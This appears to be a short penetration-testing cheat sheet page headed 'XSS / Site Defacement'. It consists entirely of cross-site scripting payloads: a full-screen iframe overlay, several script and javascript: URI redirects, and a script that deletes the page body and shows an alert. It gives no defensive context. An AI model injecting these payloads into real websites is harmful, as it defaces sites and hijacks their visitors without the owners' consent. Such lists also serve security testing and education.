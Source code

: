 # XSS

## Site Defacement

{% code overflow="wrap" lineNumbers="true" %}
```javascript
<iframe src="url" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">

<script>window.location='url'</script>
<script>window.open('../index.php','_self')</script>
javascript:location.assign('url')

<script>function kill() {document.body.remove();setTimeout(function() {alert("X S S");}, 1);}kill();</script>
```
{% endcode %}
